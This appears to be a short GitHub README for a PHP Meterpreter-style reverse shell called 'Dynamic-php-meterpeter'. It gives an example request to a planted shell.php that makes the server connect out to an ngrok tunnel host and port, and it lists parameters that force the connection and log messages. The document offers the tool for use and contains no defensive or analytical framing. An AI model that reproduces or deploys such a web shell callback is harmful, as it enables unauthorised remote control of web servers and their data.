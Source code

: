# Dynamic-php-meterpeter
Dynamic php meterpeter 
Example: http://localhost/init/shell.php?host=0.tcp.ngrok.io&port=18749&msg=1&not_die=1
perameter details:
host : TCP host ip
port : port number
msg : 1 - show messages log on webpage
not_die : 1 - to force connect on host 
